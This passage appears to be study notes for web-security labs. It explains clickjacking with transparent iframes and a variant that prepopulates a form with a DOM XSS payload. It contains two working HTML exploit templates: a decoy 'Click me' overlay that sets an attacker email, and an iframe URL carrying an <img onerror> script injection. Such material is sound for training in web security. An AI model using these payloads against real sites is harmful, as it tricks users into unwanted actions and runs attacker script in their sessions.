 	* For Example: height: 700px ,  weight: 500px , opacity: 0.1 , top: 500px , left: 100px

   	* Also for the labs, the "Test me" text needed to be changed to "Click me".	

```html
<style>
    iframe {
        position:relative;
        width: 500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 450px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms"
src="$VULNERABLE-APPLICATION-URL?email=hacker@attacker-website.com"></iframe>
```

<br>

### Prepopulate Form + DOM XSS Exploit

* It may be possible to prepopulate a form used in a POST request, by referencing those body parameters as query parameters in a GET request.
  
* Use a clickjacking payload, which will prepopulate a \<form\> parameter’s value, using query parameters in a GET request.
  
* One of these parameters will include a XSS payload, as a client-side script on the application is using the parameter’s value in a dangerous Sink (innerHTML()).  Combining both clickjacking and XSS leads to a higher impact.  Without the clickjacking vulnerability, the XSS would be more difficult to pull off since the form requires a CSRF Token.
  
* Include this targeted web page in an \<iframe\>.  Since the form will be prepopulated, we only need to induce the user into clicking on the button that will submit the POST request.
  
	* For Example: height: 700px ,  weight: 500px , opacity: 0.1 , top: 500px , left: 100px

	* Also for the labs, the "Test me" text needed to be changed to "Click me".

```html
<style>
	iframe {
		position:relative;
		width: 500px;
		height: 700px;
		opacity: 0.1;
		z-index: 2;
	}
	div {
		position:absolute;
		top: 610px;
		left: 80px;
		z-index: 1;
	}
</style>
<div>Click me</div>
<iframe
src="$VULNERABLE-APPLICATION-URL?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```
